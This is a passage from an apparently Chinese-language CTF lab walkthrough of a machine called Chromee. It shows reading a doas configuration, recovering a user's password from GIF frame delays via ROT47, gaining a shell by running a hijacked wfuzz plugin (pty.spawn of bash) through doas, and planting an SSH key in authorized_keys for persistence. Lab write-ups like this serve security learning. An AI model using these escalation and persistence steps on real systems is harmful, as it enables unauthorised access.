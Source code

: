 ## 3.4 Doas配置分析与提权至softly

`doas` 是 `sudo` 的一个轻量级替代品。通过在系统中搜索近期修改的文件，最终在 `/srv/zeus.conf` 找到了其配置文件。

```bash
follower@Chromee:/tmp$ cat /srv/zeus.conf
permit follower as softly cmd /usr/local/bin/wfuzz
permit nopass :softly as root cmd /usr/bin/chromium
permit nopass :softly as root cmd /usr/bin/kill
```

配置文件显示，`follower` 用户可以作为 `softly` 用户执行 `/usr/local/bin/wfuzz`。同时，在 `follower` 的家目录下发现 `note.txt`，提示与ROT47相关。通过对 `cat.gif` 文件进行隐写分析，提取其帧延迟时间序列进行ROT47解码，最终得到 `softly` 用户的密码：`p3p573r`。

*ps:https://blog.csdn.net/CHTXRT/article/details/128728967*

![image-20251019180141537](http://7r1UMPHK.github.io/image/20251019194916057.webp)

```
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ identify -format "%s %T n" cat.gif
0 65 n1 98 n2 65 n3 100 n4 102 n5 98 n6 67 n7 6 n8 6 n9 6 n10 6 n11 6 n12 6 n                                                                           
```

延迟时间序列：`65 98 65 100 102 98 67 6 6 6 6 6 6`

https://gchq.github.io/CyberChef

![image-20251019180519820](http://7r1UMPHK.github.io/image/20251019194918340.webp)

```bash
follower@Chromee:~$ doas -u softly /usr/local/bin/wfuzz --help
Password: p3p573r
...
# 成功执行
```

我们发现 `wfuzz` 的一个插件文件 `/usr/local/lib/python3.9/dist-packages/wfuzz/plugins/payloads/file.py` 对当前用户可写。经过查看发现`file.py`文件已经被修改成了`pty.spawn("/bin/bash")`，那我们可以通过 `doas` 以 `softly` 用户的身份执行 `wfuzz` 来触发代码，从而获得 `softly` 的shell。

```
ollower@Chromee:~$ doas -u softly /usr/local/bin/wfuzz -w /home/softly/.ssh/id_rsa -u 127.0.0.1
Password: 
 /usr/local/lib/python3.9/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
softly@Chromee:/home/follower$ id
uid=1001(softly) gid=1001(softly) groups=1001(softly)
```

为了获得一个稳定的交互式Shell，我们选择写入自己的SSH公钥到 `softly` 用户的 `authorized_keys` 文件中。

```bash
softly@Chromee:~$ mkdir .ssh
softly@Chromee:~$ echo 'ssh-rsa AAAAB...' > ~/.ssh/authorized_keys
```
